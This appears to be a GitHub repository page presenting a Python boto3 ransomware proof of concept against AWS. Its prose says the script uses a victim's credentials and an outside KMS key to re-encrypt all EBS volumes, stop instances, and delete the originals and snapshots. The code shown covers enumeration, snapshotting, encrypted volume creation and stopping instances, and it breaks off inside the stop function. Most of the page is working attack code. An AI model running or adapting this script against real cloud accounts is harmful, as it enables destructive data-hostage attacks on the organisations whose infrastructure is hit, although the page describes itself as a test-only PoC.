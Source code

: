 ![Pasted image 20231231174322](https://github.com/DialMforMukduk/bytebreach-cloud/assets/35155877/73456c22-0828-4da9-a737-e4d90fa3f514) ![Pasted image 20231231174352](https://github.com/DialMforMukduk/bytebreach-cloud/assets/35155877/4d83a90e-6fa9-4003-b904-a4ba7f5944d0)

This the python script used. It takes AWS creds for a 'victim' account and a publicly available AWS ARN value for the key to be used for encryption. The script will make encrypted copies of ALL available EBS volumes attached to ALL EC2 instances in the targeted AWS account, then stop every EC2 instance, detach the original EBS volumes, delete them, and finally delete all the snapshots utilized during the process. This will leave only encrypted EBS volumes in the targeted 'victim' account. ONLY USE THIS SCRIPT IN A TEST ENVIRONMENT, IT IS DESTRUCTIVE AND WILL DELETE ALL THE ORIGINAL EBS VOLUMES. You can recover them using the utilized KMS key and restore them to their original state via snapshots, but just want to make you aware that this is a ransomware PoC at the end of the day.

```
import boto3
import argparse
from botocore.exceptions import ClientError

def enumerate_ec2_instances(ec2_client):
    instances = ec2_client.describe_instances()
    instance_volumes = {}
    for reservation in instances['Reservations']:
        for instance in reservation['Instances']:
            instance_id = instance['InstanceId']
            volumes = [vol['Ebs']['VolumeId'] for vol in instance['BlockDeviceMappings'] if 'Ebs' in vol]
            instance_volumes[instance_id] = volumes
    return instance_volumes

def snapshot_volumes(ec2_client, volumes):
    snapshot_ids = []
    for volume_id in volumes:
        snapshot = ec2_client.create_snapshot(VolumeId=volume_id)
        snapshot_ids.append(snapshot['SnapshotId'])
    return snapshot_ids

def wait_for_snapshots(ec2_client, snapshot_ids):
    for snapshot_id in snapshot_ids:
        ec2_client.get_waiter('snapshot_completed').wait(SnapshotIds=[snapshot_id])

def create_encrypted_volumes(ec2_client, snapshot_ids, kms_key_arn):
    new_volume_ids = []
    for snapshot_id in snapshot_ids:
        snapshot_info = ec2_client.describe_snapshots(SnapshotIds=[snapshot_id])['Snapshots'][0]
        volume_id = snapshot_info['VolumeId']
        volume_info = ec2_client.describe_volumes(VolumeIds=[volume_id])['Volumes'][0]
        availability_zone = volume_info['AvailabilityZone']

        volume = ec2_client.create_volume(SnapshotId=snapshot_id, AvailabilityZone=availability_zone,
                                          Encrypted=True, KmsKeyId=kms_key_arn)
        new_volume_ids.append(volume['VolumeId'])
    return new_volume_ids

def stop_instances(ec2_client, instance_ids):
    for instance_id in instance_ids:
        try:
            instance_description = ec2_client.describe_instances(InstanceIds=[instance_id])
            instance_state = instance_description['Reservations'][0]['Instances'][0]['State']['Name']

            if instance_state == 'running':
                ec2_client.stop_instances(InstanceIds=[instance_id])
                print(f"Stopping instance: {instance_id}")
                ec2_client.get_waiter('instance_stopped').wait(InstanceIds=[instance_id])
                print(f"Instance {instance_id} stopped.")
```